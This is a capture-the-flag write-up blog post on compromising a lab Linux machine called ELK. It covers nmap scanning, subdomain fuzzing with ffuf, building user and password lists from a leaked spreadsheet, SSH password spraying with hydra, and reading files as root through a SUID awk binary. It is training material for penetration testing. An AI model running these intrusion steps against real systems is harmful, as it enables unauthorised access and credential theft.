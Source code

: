 ```yaml
---
layout: post
title: "CTF7E4 - ELK Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine was more about enumeration and bruteforcing, such as finding new subdomains that are not visible by default on ssl cert and ssh spraying using different tools for bruteforcing such as THC-Hydra. The last step for privilege escalation was about abusing a native linux binary which had SUID permissions.
&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.11
- **Difficulty:** Medium

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.11**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for staging.elk.xor (10.10.10.11)
Host is up (0.028s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:2c:29:d5:e5:86:27:3a:d9:7c:32:88:03:71:db:d5 (RSA)
|   256 0f:cb:76:02:b6:21:28:49:cb:a2:ea:8a:cf:db:dd:98 (ECDSA)
|_  256 83:80:4d:27:13:7f:79:27:79:10:2d:ac:c3:af:91:78 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=elk.xor/organizationName=XOR CyberCommunity/stateOrProvinceName=Some-State/countryName=AL
| Not valid before: 2020-01-12T00:57:06
|_Not valid after:  2021-01-11T00:57:06
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

From the nmap scan output, we can see that there is a web server running on port 80 and 443. Browsing to https://10.10.10.11/ and looking at the certificate info, we can identify that port 443 is configured to run on **elk.xor** domain.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk1.png){:.images}
&nbsp;

Running file and directory discovery tools resulted in nothing so we started to bruteforce new subdomains. We can do that using differnet tools such as gobuster, wfuzz, ffuf, etc. I prefer ffuf for it's speed and available options to filter content. While bruteforcing subdomains a lot of them returned with the same page size (10918), so to filter the output we can use **\--fs 10918**.

> **→ ffuf -c -u 'http://10.10.10.11' -w ~/tools/SecLists/Discovery/DNS/shubs-subdomains.txt -H "Host: FUZZ.elk.xor" -fs 10918**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk2.png){:.images}
&nbsp;

New subdomain staging.elk.xor was found. To access this subdomain we should add it to our /etc/hosts file.
> **→ echo '10.10.10.11 staging.elk.xor' >> /etc/hosts**{: style="color: red"}

The message on this subdomain was the same but if we looked at the source code we saw a html commented line as seen in the screenshot below.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk3.png){:.images}
&nbsp;

In the main.js file there was a strange directory and file named **xorsecretdocuments/employee.xlsx**

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk4.png){:.images}
&nbsp;

Since **.xlsx** is a format for Microsoft Excel files, we can use an online Excel file viewer.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk5.png){:.images}
&nbsp;

To use this file as a combo list, we can first convert it to a csv file so then we can easily sort fields such as users and passwords.

> **→ cat employee.csv \| cut -d ',' -f 1 >> users.txt**{: style="color: red"}
> **→ cat employee.csv \| cut -d ',' -f 2 >> passwords.txt**{: style="color: red"}

Then we can continue with ssh passwords spraying using Hydra. Some times it's necessary to use different tools such as ncrack, patator or msfconsole auxiliary modules for ssh, to avoid false positives. 

> **→ hydra -L users.txt -P passwords.txt ssh://10.10.10.11 -t 4**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk6.png){:.images}
&nbsp;

```
[DATA] attacking ssh://10.10.10.11:22/
[22][ssh] host: 10.10.10.11   login: crista   password: alejandro
1 of 1 target successfully completed, 1 valid password found
```

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk7.png){:.images}
&nbsp;

First things that I like to check for privilege escalation is running **'sudo -l'** command to see if current user has permissions to run a specific command as root without entering the password or being into sudo group.

> **crista@elk:~$ sudo -l**{: style="color: red"}
[sudo] password for crista: ^C

> **crista@elk:~$ cat /etc/group | grep sudo**{: style="color: red"}
sudo:x:27:

Then proceed to finding SUID binaries, if there are any. Now it's much easier when you find one because a great [website](https://gtfobins.github.io) exists, where you can find different PoCs for native binaries.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk8.png){:.images}
&nbsp;

In this machine, **awk** has SUID permissions and can be abused in different ways. We can first try to spawn a shell with root privileges but in our case it didn't work, so we use its file reading function.
&nbsp;

```bash
LFILE=file_to_read
awk '//' "$LFILE"
```

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/elk9.png){:.images}
&nbsp;

&nbsp;
I hope you had fun solving this machine and learning something new.